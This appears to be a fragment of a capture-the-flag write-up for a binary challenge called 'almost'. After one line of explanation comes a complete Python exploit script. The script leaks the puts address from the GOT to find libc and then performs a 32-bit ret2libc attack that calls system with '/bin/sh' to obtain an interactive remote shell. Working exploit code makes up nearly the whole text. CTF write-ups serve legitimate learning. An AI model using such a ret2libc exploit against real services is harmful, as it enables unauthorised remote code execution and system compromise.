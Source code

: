So, from here it was just as simple as doing a 32 bit ret2libc, since LIBC wasn't provided I leaked the `puts` address and used the libc database.

```py
from roppy import *

p = remote("jh2i.com", 50017)

elf = ELF("almost")
libc = ELF("libc6-i386_2.27-3ubuntu1.2_amd64.so")

def protocol():
    p.sendlineafter(":\n", "A"*64)

def domain():
    p.sendlineafter(":\n", "B"*64)

def path(payload):
    payload = payload.ljust(63, b"c")
    p.sendlineafter(":\n", payload)


protocol()
domain()

payload = b"A"*10
payload += p32(elf.plt("puts"))      # function 
payload += p32(elf.function("main")) # return address
payload += p32(elf.got("puts"))      # arg1

path(payload)

p.recvline()
p.recvline()
leak = u32(p.recv(4))
log.info("puts@GOT:   0x%x" %(leak))
libc.address = leak - libc.function("puts")

protocol()
domain()

payload = b"A"*10
payload += p32(libc.function("system"))
payload += p32(0xdeadbeef)

payload += p32(libc.search(b"/bin/sh\x00"))

path(payload)

p.interactive()
```
